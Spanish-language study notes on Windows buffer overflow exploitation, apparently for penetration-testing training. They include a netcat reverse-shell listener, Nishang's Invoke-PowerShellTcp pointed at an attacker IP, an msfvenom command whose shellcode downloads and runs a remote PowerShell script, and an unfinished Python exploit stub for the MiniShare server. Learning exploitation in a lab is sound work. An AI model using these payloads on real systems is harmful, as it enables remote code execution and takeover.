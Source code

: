 - Reverse shell
```bash
rlwrap nc -lnvp 443
```
- En este punto ya hemos realizaedo el buffer overflow
## Modificación del Shellcode para controlar el comando que se desea ejecutar


>**Si hay algún binario que tenga demasiados badchars** (lo que hay en -b que el binario a reventar no acepta como instrucción), le quitamos -e x86/shikata_ga_nai y msfvenom se las apaña para encontrar el encoder que no tenga todos esos badchars

- Utilizamos [Invoke-PowershellTCP](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)
>Este binario declara una vez ejecutado lo que es Invoke-PowershellTCP y después podremos ejecutar lo que hay dentro del script

```bash
mv Invoke-PowerShellTcp.ps1 PS.ps1
nano PS.ps1
#Ponemos en la última línea
Invoke-PowerShellTcp -Reverse -IPAddress IPAtacante -Port portAtacante
```

>Cargamos una instrucción en Powershell

```bash
msfvenom -p windows/exec CMD="powershell IEX(New-Object Net.WebClient).downloadString('http://ipatacante:puertoatacante/PS.ps1')" --platform windows -a x86  -f c -e x86/shikata_ga_nai -b '\x00\x0a\x0d' EXITFUNC=thread
```

- Y terminamos ejecutando el mismo script que en el ejercicio anterior pero cambiando el **shellcode**
- Abrimos **Http server**
```bash
python3 -m http.server
```
- Abrimos **Listener**
```bash
rlwrap nc -lnvp 443
```

## Entrenar un poquito ahí lo aprendido

- [Binario vulnerable](https://sourceforge.net/projects/minishare/files/OldFiles/minishare-1.4.1.exe/download) --> **Minishare**

- Sabemos que tiene una vuln por el puerto **80** en el que mandando una petición GET, donde v la url si ponemos demasiada info se acontecerá esto

- De momento tengo esto que peta pero no sé dónde
```python
#!/usr/bin/python3

#Importo librerías necesarias

import sys
import socket
from struct import pack  

#Declaro variabes necesarias
ip_address = input("Introduce la dirección IP del servidor: ")
port = int(input("Introduce el puerto del servidor: "))

# Función donde van las instrucciones del shellcode

```